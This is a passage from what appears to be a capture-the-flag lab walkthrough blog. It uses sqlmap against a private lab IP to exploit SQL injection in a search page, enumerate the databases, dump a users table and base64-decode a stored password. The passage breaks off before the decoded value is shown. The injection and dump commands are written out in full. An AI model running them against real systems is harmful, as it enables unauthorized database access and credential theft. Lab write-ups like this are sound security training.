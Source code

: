 

<p>The <strong>sqlmap</strong> is a powerful tool which is used for automated vulnerability scanning. I used the following command to search for the vulnerabilities and ultimately to list the existing databases:</p>



<pre class="wp-block-code"><code># sqlmap --url http://192.168.43.148/kzMb5nVYJw/420search.php?usrtosearch= --dbs</code></pre>



<p>Here, <strong>--url</strong> is used for specifying the URL of the target page and <strong>--dbs</strong> is used for displaying the list of existing databases once the vulnerability is exploited.<br></p>



<figure class="wp-block-image"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-9.png" alt="" class="wp-image-30"/><figcaption>Output of sqlmap</figcaption></figure>



<figure class="wp-block-image"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-10.png" alt="" class="wp-image-31"/></figure>



<p>Ok, now we have access to database. That <strong>seth</strong> database looks interesting. Let's check that out. The following commands lists the tables inside the "seth" database:</p>



<pre class="wp-block-code"><code># sqlmap --url http://192.168.43.148/kzMb5nVYJw/420search.php?usrtosearch= -D seth --tables</code></pre>



<figure class="wp-block-image"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-11.png" alt="" class="wp-image-32"/></figure>



<p>Looks like we are heading the right way. Let's dump all the records inside the table <strong>users</strong>.</p>



<pre class="wp-block-code"><code># sqlmap --url http://192.168.43.148/kzMb5nVYJw/420search.php?usrtosearch= -D seth -T users --dump</code></pre>



<figure class="wp-block-image"><img src="https://hackersfoodhome.files.wordpress.com/2019/05/image-12.png" alt="" class="wp-image-33"/><figcaption>users table dump from the database</figcaption></figure>



<p>The <strong>isis</strong> seems uninteresting. However <strong>ramses</strong> user has some encrypted/encoded password. Again, a little bit experienced people will know just by a sight that it's a base64 encoded string. Let's decrypt it!</p>



<pre class="wp-block-code"><code># echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE=" | base64 --decode</code></pre>



<p>The encoded string needed to be padded. So I added an extra '=' at the end. The output/decoded string is: </p>
